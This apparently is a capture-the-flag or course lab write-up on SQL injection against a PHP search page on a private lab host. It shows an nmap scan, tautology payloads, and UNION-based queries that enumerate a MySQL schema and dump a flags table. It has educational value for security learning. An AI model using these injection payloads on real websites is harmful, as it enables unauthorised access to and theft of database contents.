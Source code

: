 # de3b1c_database_hacking


The first step is to find the vuln input that may be used to inject SQL code. We can use `sqlmap` to find the vuln input.

The database is MySQL.
```
nmap -p- -A -o scan_result.txt 10.0.2.197
3306/tcp open  mysql
```

According to the course description, de3b1c is in the `http://10.0.2.197/php/recherche_old.php` page.

Now, let's build different payloads to find the vuln input.
```
# the input results in an server error
# to be honest, -- is a also comment symbol, but here, it doesn't work. So # is used.
' or 1=1 --

SELECT DISTINCT usID, usPseudo, usNom , usAvecPhoto FROM users WHERE usNom LIKE '%' or 1 = 1 --%'

# but the following payload works
# the reason is https://blog.raw.pm/en/sql-injection-mysql-comment/
# -- comment style requires the second dash to be followed by at least one whitespace or control character 
' or 1=1 -- +

```

Now, we know what exact sql will be executed.

```
# get the current database name
jinjia%' union select 1,Database(),4,4  #

# get all table names
jinjia%' union select 1,table_name,table_schema,4 from information_schema.tables where table_schema= 'cuiteur' #

# get column names of table flags
jinjia%' union select 1,column_name,4,4 from information_schema.columns where table_name="flags" #

# get flag
jinjia%' union select 1,flag_id,flag,4 from flags  #

flag{de3b1c24f408fa53d40b900b9cf28af3bfddccf3252e1a}
```